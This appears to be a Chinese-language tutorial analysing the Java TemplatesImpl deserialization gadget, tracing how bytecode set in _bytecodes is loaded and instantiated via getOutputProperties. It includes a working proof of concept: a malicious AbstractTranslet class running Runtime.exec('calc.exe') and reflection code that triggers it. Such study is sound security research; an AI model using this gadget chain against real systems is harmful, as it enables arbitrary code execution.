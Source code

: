 # TemplatesImpl
- [TemplatesImpl](#templatesimpl)
  - [ClassLoader](#classloader)
    - [defineClass类加载](#defineclass类加载)
  - [TransletClassLoader#defineClass](#transletclassloaderdefineclass)
    - [defineTransletClasses](#definetransletclasses)
      - [getTransletClasses()](#gettransletclasses)
      - [getTransletIndex()](#gettransletindex)
      - [getTransletInstance()](#gettransletinstance)
    - [newTransformer()](#newtransformer)
  - [POC构造](#poc构造)
    - [关键点](#关键点)

## ClassLoader
每个ClassLoader对象都是一个java.lang.ClassLoader的实例,每一个class对象都是由ClassLoader对象来加载,也可以继承java.lang.ClassLoader来扩展自定义ClassLoader来加载类.  
### defineClass类加载
在ClassLoader中有一个defineClass可以通过参数b传入字节码来加载一个Class.
```java
    protected final Class<?> defineClass(String name, byte[] b, int off, int len,
                                         ProtectionDomain protectionDomain)
        throws ClassFormatError
    {
        protectionDomain = preDefineClass(name, protectionDomain);
        String source = defineClassSourceLocation(protectionDomain);
        Class<?> c = defineClass1(name, b, off, len, protectionDomain, source);
        postDefineClass(c, protectionDomain);
        return c;
    }
```
## TransletClassLoader#defineClass
在java.lang.ClassLoader中的defineClass属性为protected,无法直接在外部访问,只能通过反射调用.而在TemplatesImpl.java中有一个TransletClassLoader类,其中继承了ClassLoader并重写了defineClass,其中没有显式声明作用域,而默认下为作用域default,代码如下
```java
Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
```
### defineTransletClasses
而引用了TransletClassLoader.defineClass的的地方则是在defineTransletClasses().
![](2021-12-21-11-40-42.png).
可以看到将属性`_bytecodes`值传入loader.defineClass中,同时该属性为private访问权限.
而引用了defineTransletClasses()的地方一共有三处:
* getTransletClasses()
* getTransletIndex()
* getTransletInstance()
#### getTransletClasses()
相关代码如下
```java
    private synchronized Class[] getTransletClasses() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _class;
    }
```
在该方法中,虽然调用了defineTransletClasses()方法来加载了我们指定的类,但却没有对该类进行实例化,导致无法执行类中的静态代码块,也就无法执行我们的恶意代码.
#### getTransletIndex()
```java
    public synchronized int getTransletIndex() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _transletIndex;
    }
```
该方法同理,也没有进行实例化.
#### getTransletInstance()
```java
    private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();

            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            ...
            ...
            ...
```
在该方法中,调用了`_class`的newInstance(),也就是对加载的指定类进行了实例化,我们的恶意代码也就可以自动触发了.
### newTransformer()
可以看到只有getTransletInstance()符合要求,而引用了getTransletInstance()的地方则是在newTransformer()中.
```java
    public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);
            ...
            ...
            ...
```
可以看到该类必须要是一个AbstractTranslet类型,而该类为一个抽象类,也就是我们传入的类也要是AbstractTranslet类的实现类.
而newTransformer()则是在getOutputProperties()中
```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```
## POC构造
现在的触发流程如下:
1. getOutputProperties()->newTransformer()
2. newTransformer()->getTransletInstance()
3. getTransletInstance()->defineTransletClasses()
4. defineTransletClasses()->TransletClassLoader()
5. TransletClassLoader()->defineClass()
6. defineClass()->加载指定类
7. _class.newInstance()实例化指定类,触发静态代码块或者构造函数中的恶意代码.

继承了AbstractTranslet的恶意类实例代码:
```java
public class Poc extends AbstractTranslet {
    public Poc() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public static void main(String[] args) throws Exception{
        Poc poc = new Poc();
    }

}
```
从getOutputProperties当入口为例.
```java
 public static void main(String[] args) throws Exception {
        TemplatesImpl jrs = new TemplatesImpl();
        byte [] code = getbytes("D:\\\\coding\\\\Temlpates\\\\target\\\\test-classes\\\\Poc.class");
        setFieldValue(jrs,"_bytecodes",new byte[][] {code});
        setFieldValue(jrs,"_name","1");
        setFieldValue(jrs,"_tfactory",new TransformerFactoryImpl());
        jrs.getOutputProperties();
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static byte[] getbytes(String filename) throws Exception{
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(filename)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        byte[] result = bos.toByteArray();
        return result;
    }
}
```
![](2021-12-21-19-19-55.png)

### 关键点
1. 通过反射来设置TemplatesImpl的相关属性.
2. _name属性要不为空.  
![](2021-12-21-19-17-09.png)
3. _tfactory属性要为TransformerFactoryImpl对象.
![](2021-12-21-19-17-47.png)
不然在生成TransletClassLoader时会报错.
![](2021-12-21-19-18-16.png)

